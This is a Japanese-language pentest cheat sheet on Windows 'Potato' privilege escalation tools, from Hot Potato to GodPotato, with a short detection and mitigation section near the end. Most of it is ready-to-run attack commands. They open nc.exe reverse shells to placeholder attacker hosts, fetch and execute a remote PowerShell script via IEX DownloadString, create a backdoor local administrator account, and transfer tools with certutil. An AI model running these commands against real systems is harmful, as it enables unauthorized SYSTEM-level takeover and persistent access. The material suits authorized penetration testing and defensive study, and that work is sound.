






## TL;DR

すべての Potato 攻撃は同じ中核的な仕組みを共有している。**SeImpersonatePrivilege** または **SeAssignPrimaryTokenPrivilege** を持つサービスアカウントは、特権プロセスにローカル認証を強制し、そのトークンを奪取することで **NT AUTHORITY\\SYSTEM** へ昇格できる。

**ツール選択の目安:**

| 状況 | 推奨ツール |
|------|-----------|
| 現行 Windows 全般 | **GodPotato**（最も安定） |
| ワンライナーで統一したい | **SweetPotato** |
| Windows 10 1809+ / Server 2019+ | **RoguePotato** |
| 古い Windows（1809 以前） | **JuicyPotato** |
| SSRF + SeImpersonate | **GenericPotato** |

---

## 前提条件 — SeImpersonatePrivilege

すべての Potato 攻撃には、以下のいずれか一方が必要:

- `SeImpersonatePrivilege` — *認証後にクライアントを偽装する*
- `SeAssignPrimaryTokenPrivilege` — *プロセスレベルのトークンを置き換える*

これらは **IIS**、**SQL Server**、**WinRM** などのサービスアカウントにデフォルトで付与されている。以下のコマンドで確認できる:

```powershell
whoami /priv
# 確認するもの:
# SeImpersonatePrivilege   Impersonate a client after authentication   Enabled
```

---

## Hot Potato

**対象:** Windows 7、8、10、Server 2008、Server 2012

**ステータス:** ⛔ パッチ済み（MS16-075、MS16-077）

### 仕組み

3 つの独立した脆弱性を連鎖させた単一のエクスプロイト:
1. **ローカル NetBIOS Name Service スプーフィング** — NBNS ブロードキャストクエリに応答する
2. **偽の WPAD プロキシ** — スプーフィングした名前経由で悪意ある WPAD PAC ファイルを配信する
3. **HTTP → SMB NTLM リレー** — 取得した SYSTEM 認証情報をローカルマシンへリレーする



### コマンド

```cmd
Potato.exe -ip <local_ip> -cmd [command] -disable_exhaust true -disable_defender true
```

---

## Rotten Potato

**対象:** meterpreter セッションがある Windows 1809 以前

**ステータス:** ⛔ Windows 10 1809+ / Server 2019+ では動作しない

### 仕組み

RPC 認証フローを悪用する:

1. `CoGetInstanceFromIStorage` を呼び出し、DCOM サーバーにローカル RPC リスナーへの認証を強制する
2. NTLM 認証ブロブを取得する
3. ローカルの偽装のために `AcceptSecurityContext` へリレーする
4. 結果として得られた SYSTEM トークンを奪取する



### コマンド

```cmd
MSFRottenPotato.exe t c:\windows\temp\test.bat
```

---

## Lonely Potato

**ステータス:** ⛔ 非推奨

meterpreter 依存をなくした Rotten Potato のスタンドアロン移植版。現在リポジトリは Juicy Potato へのリダイレクトのみとなっている。

---

## Juicy Potato

**対象:** Windows 10 1809 以前、Server 2016 以前

**ステータス:** ⚠️ 現行 Windows では同じ DCOM 制限あり。代わりに SweetPotato を使用すること

### 仕組み

Rotten Potato を以下の点で拡張している:
- **カスタム CLSID の選択が可能**（BITS に縛られなくなった）
- meterpreter 不要
- 設定可能なリスニングポートをサポート

以下の条件を満たす COM サーバーを標的にする:
- 低権限サービスアカウントからインスタンス化できる
- `IMarshal` インターフェースを実装している
- 昇格されたコンテキスト（SYSTEM、Administrator、LocalService）で動作している



### コマンド

```cmd
juicypotato.exe -l 1337 -p c:\windows\system32\cmd.exe -t * -c {F87B28F1-DA9A-4F35-8EC0-800EFCF26B83}
```

**オプション:**

| フラグ | 説明 |
|--------|------|
| `-l` | ローカル COM リスナーポート |
| `-p` | 実行するプログラム |
| `-t` | トークンタイプ（`*` = CreateProcessWithToken と CreateProcessAsUser の両方を試行） |
| `-c` | 対象 CLSID |

OS 別 CLSID リスト: [https://github.com/ohpe/juicy-potato/tree/master/CLSID](https://github.com/ohpe/juicy-potato/tree/master/CLSID)

---

## Rogue Potato

**対象:** Windows 10 1809+、Server 2019+（現行システム）

**ステータス:** ✅ パッチ済みの現行 Windows でも動作

### 仕組み

**リモート OXID 解決**を利用することで、DCOM がローカルリスナーへ認証しないという制限を回避する:

1. DCOM にリモート OXID クエリ（攻撃者マシンのポート 135）を強制する
2. 攻撃者はそのクエリをターゲット上の偽の RPC サーバーへリダイレクトする
3. 偽 RPC サーバーが制御下の**名前付きパイプ**を指す
4. 認証コールバックを受信 → `RpcImpersonateClient()` → `rpcss` から SYSTEM トークンを奪取



### セットアップ

**攻撃者マシン**にて — ポート 135 をターゲットへフォワード:

```bash
socat tcp-listen:135,reuseaddr,fork tcp:<VICTIM_IP>:9999
```

**ターゲット**にて:

```cmd
.\RoguePotato.exe -r <ATTACKER_IP> -e "cmd.exe" -l 9999
```

**オプション:**

| フラグ | 説明 |
|--------|------|
| `-r` | 攻撃者 IP（OXID リダイレクト先） |
| `-e` | 実行するコマンド |
| `-l` | 偽 OXID サーバーのローカルリスニングポート |
| `-c` | カスタム CLSID（任意） |

---

## Sweet Potato

**対象:** すべての Windows バージョン（統合ツール）

**ステータス:** ✅ 幅広い互換性で推奨

### 仕組み

複数の昇格手法を統合した単一バイナリで、利用可能な最適な方法を自動選択する:

- **RottenPotato** — 古典的な DCOM 悪用
- **JuicyPotato** — BITS/WinRM の CLSID 探索
- **PrintSpoofer** — Spooler 名前付きパイプの偽装
- **EfsRpc (EfsPotato)** — MS-EFSR 名前付きパイプの強制
- **PetitPotam** — LSARPC/EFSRPC の強制



### コマンド

```cmd
.\SweetPotato.exe -p cmd.exe -a "/c whoami"
```

**全オプション:**

```
.\SweetPotato.exe
  -c, --clsid=VALUE          CLSID (デフォルト: BITS)
  -m, --method=VALUE         トークン手法: Auto / User / Thread
  -p, --prog=VALUE           起動するプログラム
  -a, --args=VALUE           プログラムへの引数
  -e, --exploit=VALUE        DCOM | WinRM | EfsRpc | PrintSpoofer
  -l, --listenPort=VALUE     ローカル COM サーバーポート
```

---

## Generic Potato

**対象:** 標準的な Potato ツールが失敗する特殊なシナリオ

**ステータス:** ✅ SSRF + SeImpersonate や非標準環境で有用

### ユースケース

- **SSRF + SeImpersonatePrivilege** — 特権サービスからウェブリクエストを強制する
- **Print Spooler が動作していない**システム
- **RPC アウトバウンドをブロック**している環境、または BITS が無効な環境
- **WinRM は利用可能**だが DCOM が使えない

### 仕組み

HTTP または名前付きパイプでリッスンし、特権アプリケーションまたはユーザーが認証するのを待つ。得られたトークンを奪取して任意のコマンドを実行する。

### コマンド

```cmd
.\GenericPotato.exe -e HTTP -p cmd.exe -a "/c whoami" -l 8888
```

```
.\GenericPotato.exe
  -m, --method=VALUE         トークン手法: Auto / User / Thread
  -p, --prog=VALUE           起動するプログラム
  -a, --args=VALUE           引数
  -e, --exploit=VALUE        HTTP | NamedPipe
  -l, --port=VALUE           HTTP リスニングポート
  -i, --host=VALUE           HTTP ホストバインディング
```

---

## GodPotato

**対象:** Windows Server 2012 〜 2022、Windows 8 〜 11

**ステータス:** ✅ 現行の最も安定した選択肢 — 第一候補として推奨

### 概要

GodPotato は Potato ファミリーの最新進化形。以前のツールが失敗する完全パッチ済みの Windows 11 や Server 2022 を含む**すべての現行 Windows バージョン**で安定して動作する。

**ImpersonateNamedPipeClient** + **DCOM RPC** の認証チェーンを悪用し、偽の COM オブジェクトを通じて SYSTEM レベルの RPC コールを強制した後、SYSTEM トークンを取得・複製する。

**必要条件:**
- `SeImpersonatePrivilege` が有効であること
- DCOM が有効であること（Windows のデフォルト）

### DCOM が有効か確認する

```powershell
Get-ItemProperty -Path "HKLM:\Software\Microsoft\OLE" | Select-Object EnableDCOM
# 期待される結果: EnableDCOM = Y
```

### 攻撃フロー



### コマンド

**リバースシェル（最も一般的）:**

```cmd
.\GodPotato.exe -cmd ".\nc.exe <KALI_IP> 4444 -e cmd.exe"
```

**RDP 経由でインタラクティブな PowerShell（アクティブな RDP セッションが必要）:**

```cmd
.\GodPotato.exe -cmd "C:\Users\<USER>\Documents\PsExec64.exe -accepteula -i -s powershell.exe"
```

**任意のコマンドを実行:**

```cmd
.\GodPotato.exe -cmd "cmd /c whoami > C:\Temp\out.txt"
```

**ローカル管理者グループにユーザーを追加:**

```cmd
.\GodPotato.exe -cmd "cmd /c net user hacker P@ssw0rd123 /add && net localgroup administrators hacker /add"
```

**ペイロードをダウンロードして実行:**

```powershell
.\GodPotato.exe -cmd "powershell -c IEX(New-Object Net.WebClient).DownloadString('http://<KALI_IP>/shell.ps1')"
```

### ターゲットへの転送

```bash
# Kali でバイナリを配信
python3 -m http.server 8001

# ターゲット (PowerShell)
Invoke-WebRequest http://<KALI_IP>:8001/GodPotato.exe -OutFile C:\Temp\GodPotato.exe

# または certutil
certutil -urlcache -split -f http://<KALI_IP>:8001/GodPotato.exe C:\Temp\GodPotato.exe
```

---

## 比較表

| ツール | Win 7/8 | Win 10 1809 以前 | Win 10 1809+ | Server 2019+ | Win 11 / Server 2022 | Meterpreter 必要 |
|--------|---------|-----------------|--------------|--------------|----------------------|-----------------|
| Hot Potato | ✅（パッチ済み） | ✅（パッチ済み） | ⛔ | ⛔ | ⛔ | 不要 |
| Rotten Potato | ✅ | ✅ | ⛔ | ⛔ | ⛔ | 必要 |
| Juicy Potato | ✅ | ✅ | ⛔ | ⛔ | ⛔ | 不要 |
| Rogue Potato | ⚠️ | ⚠️ | ✅ | ✅ | ⚠️ | 不要 |
| Sweet Potato | ✅ | ✅ | ✅ | ✅ | ⚠️ | 不要 |
| GodPotato | ✅ | ✅ | ✅ | ✅ | ✅ | 不要 |

---

## 検出と防御

### ブルーチームの指標

| イベント ID | 説明 |
|------------|------|
| 4648 | 明示的な資格情報でのログオン — SYSTEM が通常とは異なるプロセスへ認証していないか監視する |
| 4672 | ログオン時に特別な権限が割り当てられた |
| 4688 | 新しいプロセスが作成された — IIS/SQL サービスアカウントによって cmd.exe / powershell.exe が起動されていないか監視する |

### 緩和策

```powershell
# 必要のないサービスアカウントから SeImpersonatePrivilege を削除する
# （本番環境で削除する前に動作確認を行うこと）

# どのアカウントがその権限を持っているか確認する
whoami /priv
Get-WmiObject Win32_UserAccount | Select Name

# Virtual Service Accounts または gMSA を使用する — これらはトークン権限が制限されており、
# クロスプロセスの偽装に SeImpersonatePrivilege を悪用できない
```

- **Virtual Service Accounts**（`NT SERVICE\<name>`）および **Group Managed Service Accounts (gMSA)** は攻撃対象領域を大幅に削減する
- 可能な場合は RPC/DCOM のアウトバウンドを制限する（Windows ファイアウォールルール）
- 低権限プロセスによる異常な名前付きパイプの作成を監視する

---

## コマンドクイックリファレンス

```cmd
:: GodPotato (推奨)
.\GodPotato.exe -cmd "nc.exe <IP> 4444 -e cmd.exe"

:: SweetPotato
.\SweetPotato.exe -p nc.exe -a "<IP> 4444 -e cmd.exe"

:: RoguePotato (攻撃者側でポート 135 のフォワードが必要)
.\RoguePotato.exe -r <ATTACKER_IP> -e "nc.exe <IP> 4444 -e cmd.exe" -l 9999

:: JuicyPotato (古いシステム向け)
juicypotato.exe -l 1337 -p nc.exe -a "<IP> 4444 -e cmd.exe" -t * -c {CLSID}
```

---

## 参考資料

- **主要参考文献:** [https://jlajara.gitlab.io/Potatoes_Windows_Privesc](https://jlajara.gitlab.io/Potatoes_Windows_Privesc)
- GodPotato: [https://github.com/BeichenDream/GodPotato](https://github.com/BeichenDream/GodPotato)
- JuicyPotato CLSID リスト: [https://github.com/ohpe/juicy-potato/tree/master/CLSID](https://github.com/ohpe/juicy-potato/tree/master/CLSID)
- GTFOBins（SeImpersonate リファレンス）: [https://gtfobins.github.io/](https://gtfobins.github.io/)
